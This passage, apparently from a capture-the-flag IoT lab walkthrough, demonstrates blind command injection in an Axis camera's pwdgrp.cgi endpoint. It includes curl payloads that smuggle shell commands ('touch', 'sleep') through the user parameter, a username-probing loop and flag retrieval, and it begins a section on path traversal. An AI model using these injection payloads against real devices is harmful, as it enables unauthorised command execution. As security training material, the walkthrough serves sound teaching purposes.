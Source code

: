 #### Blind Command Injection in pwdgrp.cgi

```bash
# Test pwdgrp.cgi endpoint
curl "http://192.168.1.132/axis-cgi/pwdgrp.cgi?user=test"
```

**Expected Output:**
```
Processing user: test
Done
```

No direct output - this is **blind command injection**.

```bash
# Verify injection works by creating a file
# Why: Since no output, we need out-of-band confirmation
curl "http://192.168.1.132/axis-cgi/pwdgrp.cgi?user=test;touch%20/tmp/proof"

# Alternative: Use time-based detection
time curl "http://192.168.1.132/axis-cgi/pwdgrp.cgi?user=test;sleep%205"
# If it takes 5+ seconds, injection confirmed

# Try different usernames to trigger special behavior
for user in admin root service operator guest; do
    echo "[*] Testing user: $user"
    curl "http://192.168.1.132/axis-cgi/pwdgrp.cgi?user=$user"
done
```

**Later Discovery (after SSH access):**
```bash
# Check for created files
find / -name ".flag_*" 2>/dev/null
cat /var/log/.flag_admin
```

**Output:**
```
User admin processed successfully
Flag: FLAG{ELROND99216876}
```

> 🏁 **FLAG #5 FOUND!**
> **Flag**: FLAG{E***********6}
> **Learning Objective**: Blind command injection exploitation
> **OWASP IoT**: #3 - Insecure Ecosystem Interfaces

### Path Traversal Vulnerability

#### Understanding Path Traversal
Path traversal allows reading files outside the web root by manipulating file paths. Common in:
- File download functions
- Template engines
- Include statements
